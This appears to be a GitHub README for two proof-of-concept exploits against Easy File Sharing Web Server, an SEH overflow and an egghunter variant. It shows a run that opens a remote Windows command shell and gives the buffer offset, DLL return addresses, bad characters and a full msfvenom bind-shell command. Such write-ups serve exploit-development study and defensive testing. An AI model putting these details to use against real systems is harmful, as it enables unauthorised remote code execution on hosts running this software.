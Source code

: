 # Easy File Sharing Web Server POC's
Here are two poc's that will exploit this application. One is a regular SEH overflow, and the other utilizes the use of an egghunter

    dev@ubuntu:~# python EasyFilePOC_EGG.py 192.168.126.142
    [+] Trying to exploit 192.168.126.142...
    [+] Sending payload...
    [+] Trying to connect to target...
    
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Users\IEUser\Desktop>

The beauty of this is that both of these work across Windows platforms.  
What does that mean??  
It means that it is tested and works on Windows 7, Windows 8, Windows 8.1, Windows 10 

# SEH Exploit

This is a regular SEH overflow that gets exploited after throwing 4061 bytes  
It uses the ImageLoad.dll address of: 0x100228ff
The shell comes out to a size of 375 bytes   
The bad characters are: '\x00\x20\x25\x2b\x2f\x5c'   
msfvenom -p windows/shell_bind_tcp LPORT=12345 -n 20 -f python -a x86 --platform windows -b '\x00\x20\x25\x2b\x2f\x5c' -v shelled    

This poc will connect for you on port 12345  

# Egghunter POC    

I implemented the use of an egghunter using the tag 'hive'  
I first exploited this application through SEH, and modified it to use what I learned after taking the CTP Course by Offensive Security.  

For the P/P/R, I had used the ImageLoad.dll at address: 0x10019ce3  
0x10019ce3 : pop ebx # pop ecx # ret  |  {PAGE_EXECUTE_READ} [ImageLoad.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\EFS Software\Easy File Sharing Web Server\ImageLoad.dll)  

After that, I used a jmp to jump six bytes which then lead to my egghunter  

I had put the tag of hive in the buffer after the payload, which didn't affect anything at all  
I did find that having to go through and search for bad characters didn't apply in this case, which was awesome!   
So for future references, that's a step you don't need to take, ahhh yissssss  

After firing the exploit, it will then connect for you on port 54321

Useful notes:  
bad character will always be the nullbyte, '\x00'    
the total size of the shellcode is 375 bytes    
the NOP sled is included of 20 bytes  
the egghunter itself is 32 bytes    
